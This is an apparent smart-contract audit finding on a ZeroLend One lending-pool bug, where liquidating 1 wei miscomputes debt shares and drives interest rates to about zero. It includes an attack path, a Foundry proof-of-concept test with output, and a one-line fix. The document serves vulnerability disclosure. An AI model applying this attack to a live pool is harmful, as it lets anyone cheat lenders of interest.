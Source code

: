 Joyous Cedar Tortoise

High

# Anyone can reduce interest rate to effectively zero instantly

### Summary

_No response_

### Root Cause

in [`LiquidationLogic._repayDebtTokens`](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/pool/logic/LiquidationLogic.sol#L239), `vars.debtReserveCache.nextDebtShares` is set to the wrong value. It’s set to the burnt amount rather than the remaining amount after burning.

```solidity
uint256 burnt = balances[params.position].repayDebt(totalSupplies, vars.actualDebtToLiquidate, vars.debtReserveCache.nextBorrowIndex);
vars.debtReserveCache.nextDebtShares = burnt;
```

This means that if 1 wei was liquidated, `vars.debtReserveCache.nextDebtShares` would be set to approximately 1 wei

Then when updating the interest rates (both supply rate and borrow rate), this incorrect value is used as `totalDebt`, leading to a very small interest rate.

### Internal pre-conditions

There is a liquidatable position with at least 1 wei that can be liquidated
Attacker has at least 1 wei of that debt token

### External pre-conditions

_No response_

### Attack Path

1. Attacker liquidates a position for 1 wei
2. Incorrectly, cache.nextDebtShares is set to 1 wei
3. Interest rate is calculated to be much lower than it actually is

### Impact

Interest rate can be manipulated to `0`, with no cost

### PoC

### Coded PoC (Add to `test/forge/core/pool/PoolLiquidationTests.t.sol`)
```solidity
function testJ_liquidateDust_toDropInterestRate() external {
        _generateLiquidationCondition();

        DataTypes.ReserveData memory data = pool.getReserveData(address(tokenB));
        console.log('supplyRate is %e', data.liquidityRate);
        console.log('borrowRate is %e', data.borrowRate);

        uint256 balanceBefore = tokenB.balanceOf(bob);
        vm.startPrank(bob);
        pool.liquidateSimple(address(tokenA), address(tokenB), pos, 1 wei);

        vm.stopPrank();
        uint256 balanceAfter = tokenB.balanceOf(bob);
        
        data = pool.getReserveData(address(tokenB));
        console.log('supplyRate after is %e', data.liquidityRate);
        console.log('borrowRate after is %e', data.borrowRate);

        console.log('Attack cost is %e tokenB', balanceBefore - balanceAfter);
    }
```

### Console output
```bash
Ran 1 test for test/forge/core/pool/PoolLiquidationTests.t.sol:PoolLiquidationTest
[PASS] testJ_liquidateDust_toDropInterestRate() (gas: 923886)
Logs:
  supplyRate is 2.647754137115839243498818e24
  borrowRate is 1.9858156028368794326241134e25
  supplyRate after is 0e0
  borrowRate after is 2.29132e5
  Attack cost is 1e0 tokenB
```

### Mitigation

```diff
uint256 burnt = balances[params.position].repayDebt(totalSupplies, vars.actualDebtToLiquidate, vars.debtReserveCache.nextBorrowIndex);
-vars.debtReserveCache.nextDebtShares = burnt;
+vars.debtReserveCache.nextDebtShares -= burnt;
```